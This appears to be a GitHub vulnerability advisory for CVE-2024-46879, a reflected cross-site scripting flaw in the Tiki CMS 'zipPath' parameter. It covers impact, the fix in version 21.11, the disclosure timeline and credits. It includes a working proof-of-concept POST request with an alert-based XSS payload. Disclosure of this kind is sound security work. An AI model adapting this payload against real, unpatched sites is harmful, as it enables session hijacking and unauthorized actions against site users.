

# CVE-2024-46879 - Tiki CMS Reflected Cross-Site Scripting (XSS) Vulnerability

> Tiki CMS - 'zipPath' Parameter Reflected Cross-Site Scripting (XSS) Vulnerability

## Disclaimer
Intended only for **educational, research, and defensive purposes**. Unauthorized use against systems without permission is illegal.

## Summary
A Reflected Cross-Site Scripting (XSS) vulnerability exists in the POST request data zipPath of tiki-admin_system.php in Tiki version prior to version 21.11. This vulnerability allows attackers to execute arbitrary JavaScript code via a crafted payload, leading to potential access to sensitive information or unauthorized actions.

## Affected Product(s)
- Product: Tiki CMS Groupware
- Versions: prior to 21.11
- Component: tiki-admin_system.php

## Vulnerability Details
The vulnerability is caused by improper input sanitization of the `zipPath` parameter in `tiki-admin_system.php`. User-supplied input is reflected in the HTTP response without sufficient encoding, allowing execution of injected JavaScript.

## Impact
Allows an authenticated attacker to execute arbitrary JavaScript in another user’s browser via a crafted request, potentially leading to session hijacking or unauthorized actions.

## Proof of Concept (PoC)

### Request
```http
POST /tiki-admin_system.php HTTP/1.1
Referer: http://127.0.0.1:9080/ 
Cookie: wiki_plugin_edit_view=true; tabs=%40tabs_wikipages%3A2%40admin_look%3A2%40admin_general%3A3; show_details=n; preview=%40preview_diff_style%3A; local_tz=Asia%2FCalcutta; javascript_enabled=y; PHPSESSID=120ab2736ae548eda9efcd2c862ac76c; PHPSESSIDCV=JHSjEwiO2tLPDG5yIJ2DQw%3D%3D
Host: 127.0.0.1:9080 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15 
Accept: */* 
Content-Length: 94
Content-Type: application/x-www-form-urlencoded 

zipPath=%22'%3E<div%20on<svg/onmouseover="alert(document.domain)">Coldfx</div>"%20/%3E&zip=1
```



## Remediation
The issue has been addressed in Tiki CMS Groupware version 21.11. Users are advised to upgrade to this or a later patched release.

*Vendor Reference*: https://tiki.org/article515-New-Security-Update-Released-for-Tiki-21-x-LTS-and-Upgrade-is-Strongly-Recommended

## Timeline
- Reported to vendor: September 5, 2024
- Vendor acknowledgment: September 16, 2024
- Fixed in version 21.11: January 3, 2025
- Public disclosure (via this repository): March 23, 2026

## Credits
- Sheela Sarva, Qualys  
- Mayank Deshmukh, Qualys

### Reference
- https://www.cve.org/CVERecord?id=CVE-2024-46879
- https://tiki.org/article515-New-Security-Update-Released-for-Tiki-21-x-LTS-and-Upgrade-is-Strongly-Recommended
